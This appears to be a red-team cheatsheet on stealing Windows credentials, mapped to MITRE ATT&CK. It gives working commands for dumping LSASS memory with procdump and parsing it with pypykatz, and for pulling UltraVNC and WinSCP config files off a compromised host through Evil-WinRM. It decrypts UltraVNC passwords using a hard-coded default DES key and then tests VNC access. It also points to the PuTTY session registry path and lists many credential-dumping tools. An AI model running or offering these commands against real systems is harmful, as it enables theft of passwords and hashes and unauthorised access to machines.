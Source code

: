 ```yaml
---
layout: post
title: credentials / win
category: 04-credentials
parent: cheatsheets
modified_date: 2023-06-08
permalink: /creds/win
---
```


**Mitre Att&ck Entreprise**: [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)

**Menu**
<!-- vscode-markdown-toc -->
* [tools](#tools)
* [dumps](#dumps)
	* [lsass](#lsass)
		* [lsass-dump](#lsass-dump)
		* [lsass-extract](#lsass-extract)
	* [ntds.dit](#ntds.dit)
	* [sam](#sam)
* [schtasks](#schtasks)
* [softwares](#softwares)
	* [auto](#auto)
	* [chrome](#chrome)
	* [mremoteng](#mremoteng)
	* [xvnc](#xvnc)
	* [winscp](#winscp)
	* [putty](#putty)
	* [browsers](#browsers)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='tools'></a>tools

Multi-features Hacking Tools :

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/gentilkiwi/mimikatz/","https://api.github.com/repos/skelsec/pypykatz", "https://api.github.com/repos/SecureAuthCorp/impacket", "https://api.github.com/repos/Hackndo/lsassy", "https://api.github.com/repos/deepinstinct/Lsass-Shtinkering","https://api.github.com/repos/D1rkMtr/DumpThatLSASS","https://api.github.com/repos/codewhitesec/HandleKatz","https://api.github.com/repos/Z4kSec/Masky","https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/Processus-Thief/HEKATOMB","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

## <a name='dumps'></a>dumps

* [T1003 - OS credentials dumping](https://attack.mitre.org/techniques/T1003/001/)

### <a name='lsass'></a>lsass

#### <a name='lsass-dump'></a>lsass-dump
```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
- [redteamrecipe 50 methods](https://redteamrecipe.com/50-Methods-For-Dump-LSASS/) 🔥
- [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)

#### <a name='lsass-extract'></a>lsass-extract
```
pypykatz lsa minidump lsass.dmp -k /tmp/krb > output.txt
```

### <a name='ntds.dit'></a>ntds-dit
### <a name='ntds.dit'></a>ntds-dit-dump


### <a name='sam'></a>sam
- [registry & vss](https://nored0x.github.io/red-teaming/Windows-Credentials-SAM-Database-part-1/)

## regkeys
[T1552.002](https://attack.mitre.org/techniques/T1552/002/)
```sh
Software\SimonTatham\Putty\Sessions
```

## <a name='schtasks'></a>schtasks

## <a name='softwares'></a>softwares

### <a name='auto'></a>auto

<script>$(window).load(function() {var reposs = ["https://github.com/Arvanaghi/SessionGopher", "https://github.com/EncodeGroup/Gopher", "https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (repp in reposs) {$.ajax({type: "GET", url: reposs[repp], dataType: "json", success: function(result) {$("#repo_listt").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<div id="reposs">
    <table id="repo_listt" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

### <a name='chrome'></a>chrome
- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)

### <a name='mremoteng'></a>mremoteng

- [password decryption](https://github.com/S3cur3Th1sSh1t/mRemoteNG-Decrypt)

### <a name='xvnc'></a>xvnc

* VNC softwares properties:  

| software | registry key | ini file |
|----------|--------------|--------|
| RealVNC | HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver | C:\Program Files\RealVNC\ |
| TightVNC | HKEY_CURRENT_USER\Software\TightVNC\Server | C:\Program Files\TightVNC\ |
| TigerVNC | HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4 | C:\Program Files\TigerVNC\ |
| UltraVNC | | C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini |

* Example of download of the ini file:
```sh
Evil-winRM > download "C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini" /tmp/ultravnc.ini
```

* UtltraVNC specificities

passwd - full control password
passwd2 - read-only password
```sh
# des decryption using the ultravnc default decryption key 'e84ad660c4721ae0' 
echo -n passwd | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv

# test the password / vnc access
vncsnapshot 1.2.3.4 pwned_desktop_x.png
```


### <a name='winscp'></a>winscp

* Get an RDP session
* Check if there are saved passwords
* Export the configuration
* Download of the ini file:
```sh
Evil-winRM > download "C:\Windows\Temp\winscp.ini" /tmp/winscp.ini
```
[reverse-pwd](https://www.jonaslieb.com/blog/2012/12/23/reversing-the-winscp-session-password-encryption.html)

### <a name='putty'></a>putty

### <a name='browsers'></a>browsers
- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)

## sources

* [synacktiv](https://www.synacktiv.com/publications/windows-secrets-extraction-a-summary) / 20-04-2023
